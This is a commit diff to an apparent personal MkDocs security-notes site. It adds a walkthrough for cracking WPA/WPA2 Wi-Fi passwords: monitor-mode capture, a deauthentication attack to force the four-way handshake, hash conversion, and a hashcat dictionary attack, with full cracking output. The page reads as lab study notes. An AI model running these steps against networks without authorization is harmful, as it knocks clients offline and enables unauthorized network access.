

Before and after one commit to johnlwhiteman/johnlwhiteman.github.io, an MkDocs documentation site: the page built from docs/wireless/attacks/wpa/hashcat.md, in a window 1280 px wide and 1400 px high, scrolled down 485 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; a script that is not in the unit is left out; before the commit the page ends 900 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
cats eat hash
Signed-off-by: John L. Whiteman <>

````diff
--- a/docs/wireless/attacks/wpa/hashcat.md
+++ b/docs/wireless/attacks/wpa/hashcat.md
@@ -1,7 +1,110 @@
 # Hashcat (WPA/WPA2)
 
+## Commands
+
+* Run [setup](../../setup.md) first
+* Two terminals are needed
+* At least on client associated with the AP
+
+```bash
+# [Terminal One]
+# Set interface to monitor mode
+sudo airmon-ng start $INTERFACE
+
+# Start monitoring to collect data
+sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE
+
+# [Terminal Two]
+# Run the deauthentication attack to get four-way handshake
+sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE
+
+# Wait for the four-way handshake to appear in airodump-ng window.
+
+# Stop it
+qq
+```
+
+## Hashcat Stuff
+
+```bash
+# Show information about platform and processors
+hashcat -I
+
+# Get some help because it's needed :)
+hashcat --help
+
+# Do some benchmarking -- careful here
+hashcat -b -m 2500
+
+# Install utilities (usually already on Kali)
+sudo apt-get install hashcat-utils -y
+sudo apt-get install hcxpcapngtool -y
+
+# Convert PCAP to hash format understood by hashcat
+sudo hcxpcapngtool -o hash.hc22000 -E $WORDLIST $PCAP
+hashcat -m 22000 hash.hc22000 $WORDLIST
+
+# Computer starts screaming ...
+# Output
+hashcat (v6.2.6) starting
+
+OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
+==================================================================================================================================================
+* Device #1: pthread-sandybridge-11th Gen Intel(R) Core(TM) i7-11700K @ 3.60GHz, 1433/2930 MB (512 MB allocatable), 4MCU
+
+Minimum password length supported by kernel: 8
+Maximum password length supported by kernel: 63
+
+Hashes: 1 digests; 1 unique digests, 1 unique salts
+Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
+Rules: 1
+
+Optimizers applied:
+* Zero-Byte
+* Single-Hash
+* Single-Salt
+* Slow-Hash-SIMD-LOOP
+
+Watchdog: Temperature abort trigger set to 90c
+
+Host memory required for this attack: 0 MB
+
+Dictionary cache built:
+* Filename..: /usr/share/john/password.lst
+* Passwords.: 3561
+* Bytes.....: 26343
+* Keyspace..: 3561
+* Runtime...: 0 secs
+
+Approaching final keyspace - workload adjusted.
+
+6b05fe2fe4d6a8d9aa49d7761323e70b:009fa924b928:74da38ca5991:wifu:password123
+
+Session..........: hashcat
+Status...........: Cracked
+Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
+Hash.Target......: hash.hc22000
+Time.Started.....: Sat Jun 17 01:36:30 2023 (1 sec)
+Time.Estimated...: Sat Jun 17 01:36:31 2023 (0 secs)
+Kernel.Feature...: Pure Kernel
+Guess.Base.......: File (/usr/share/john/password.lst)
+Guess.Queue......: 1/1 (100.00%)
+Speed.#1.........:     1829 H/s (5.16ms) @ Accel:128 Loops:512 Thr:1 Vec:8
+Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
+Progress.........: 3561/3561 (100.00%)
+Rejected.........: 2921/3561 (82.03%)
+Restore.Point....: 2705/3561 (75.96%)
+Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
+Candidate.Engine.: Device Generator
+Candidates.#1....: prometheus -> password123
+Hardware.Mon.#1..: Util: 26%
+
+Started: Sat Jun 17 01:36:07 2023
+Stopped: Sat Jun 17 01:36:31 2023
+```
 
 
 ## References
 
 * [Hashcat](https://hashcat.net/hashcat/)
+* [Hashcat Utilities](https://hashcat.net/wiki/doku.php?id=hashcat_utils)
````
Also changed, not shown: docs/wireless/attacks/fourway-handshake.md (+4 -1 lines), docs/wireless/attacks/wpa/aircrack-ng.md (+11 -1 lines), docs/wireless/images/airdecap-ng-encrypted.png, docs/wireless/images/fourway-handshake-wiki.png (added).
